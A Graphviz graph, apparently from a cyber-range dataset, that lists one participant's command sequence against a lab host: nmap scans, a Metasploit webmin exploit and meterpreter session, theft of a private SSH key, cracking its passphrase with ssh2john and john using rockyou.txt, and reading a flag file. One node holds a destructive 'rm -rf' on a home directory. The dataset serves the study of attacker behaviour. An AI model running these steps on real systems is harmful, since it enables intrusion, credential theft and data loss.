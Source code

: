 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 A1 "]
	2 [label="nmap -p- 172.18.1.5 A1 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 A1 "]
	5 [label="msfconsole M2 "]
	6 [label="help U"]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	13 [label="show options U"]
	14 [label="exploit M8 "]
	15 [label="ip U"]
	16 [label="ip address U"]
	17 [label="set LHOST 10.1.135.83 U"]
	18 [label="exploit U"]
	19 [label="search shell_to_meterpreter U"]
	20 [label="use 0 A4 "]
	21 [label="sessions -l U"]
	22 [label="show options U"]
	23 [label="set SESSION 2 U"]
	24 [label="run U"]
	25 [label="sessions 2 U"]
	26 [label="sessions - U"]
	27 [label="sessions 2 U"]
	28 [label="search webmin U"]
	29 [label="use 3 A4 "]
	30 [label="exploit U"]
	31 [label="ping rm /home/eve/* -rf U"]
	32 [label="logout U"]
	33 [label="ping 10.1.18.22 U"]
	34 [label="ping 10.1.18.22 U"]
	35 [label="exit U"]
	36 [label="show options U"]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	46 [label="sessions 5 U"]
	47 [label="ssh eve@10.1.17.4 U"]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh U"]
	51 [label="ls A10 "]
	52 [label="cat id_rsa A1 A9 A11 A17 "]
	53 [label="ls A10 "]
	54 [label="vim key U"]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa A1 A9 A11 A17 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa A1 A9 A11 A17 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' A1 A9 A11 A17 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key A1 A9 A11 A17 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 "]
	61 [label="./ssh2john.py A14 "]
	62 [label="./ssh2john.py key > crack.txt A14 "]
	63 [label="cat crack.txt A1 A9 A11 A17 "]
	64 [label="ls A10 "]
	65 [label="cd Desktop/ U"]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	68 [label="cd .. U"]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	71 [label="cd /usr/share U"]
	72 [label="ls A10 "]
	73 [label="cd wordlists/ U"]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	76 [label="ssh eve@10.1.17.4 U"]
	77 [label="exit U"]
	78 [label="ls A10 "]
	79 [label="cd top-secret/ U"]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
